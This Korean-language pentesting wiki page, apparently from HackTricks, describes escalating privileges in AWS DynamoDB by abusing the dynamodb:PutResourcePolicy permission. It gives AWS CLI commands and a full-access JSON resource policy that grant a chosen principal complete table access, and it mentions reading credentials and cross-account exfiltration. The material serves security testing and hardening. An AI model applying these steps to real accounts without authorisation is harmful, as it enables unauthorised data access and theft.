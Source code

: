 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

For more info about dynamodb check:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, and optionally `dynamodb:GetResourcePolicy`

2024년 3월부터 AWS는 DynamoDB에 대해 *resource based policies*를 제공합니다 ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

따라서 테이블에 대해 `dynamodb:PutResourcePolicy` 권한이 있으면 자신이나 다른 principal에게 테이블에 대한 전체 액세스를 부여할 수 있습니다.

관리자가 `dynamodb:Put*`를 부여하면 해당 principal이 데이터베이스에 아이템을 넣는 것만 가능할 것이라고 생각하거나, 2024년 3월 이전에 해당 권한 세트를 부여한 경우 등으로 인해 무작위 principal에게 `dynamodb:PutResourcePolicy`를 부여하는 일이 종종 우연히 발생합니다...

이상적으로는 `dynamodb:GetResourcePolicy`도 가지고 있어야 다른 잠재적으로 중요한 권한을 덮어쓰지 않고 필요한 추가 권한만 주입할 수 있습니다:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
현재 정책을 가져올 수 없다면, 해당 principal에게 table에 대한 전체 액세스 권한을 부여하는 다음 정책을 사용하세요:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
커스터마이즈가 필요하다면, 모든 가능한 DynamoDB actions 목록은 다음을 참고하세요: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). 그리고 리소스 기반 정책으로 허용할 수 있는 모든 action과 *그 중 어떤 것들이 cross-account (think data exfiltration!)으로 사용될 수 있는지*에 대한 목록은 다음을 참고하세요: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

이제 정책 문서 `policy.json`이 준비되었으면, 리소스 정책을 넣습니다:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
이제 필요한 권한을 얻었을 것입니다.

### Post Exploitation

제가 알기로는 **일부 AWS `dynamodb` 권한만으로 AWS에서 권한을 직접 상승시킬 수 있는 다른 방법은 없습니다**. 테이블에서 **민감한** 정보를 읽을 수 있고(여기에는 AWS 자격증명이 포함될 수 있음) 테이블에 **정보를 쓸 수** 있습니다(이로 인해 lambda code injections... 같은 다른 취약점이 촉발될 수 있음). 하지만 이 모든 옵션은 이미 **DynamoDB Post Exploitation page**에 고려되어 있습니다:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: data Streams를 악용해 데이터 읽기

{{#include ../../../../banners/hacktricks-training.md}}
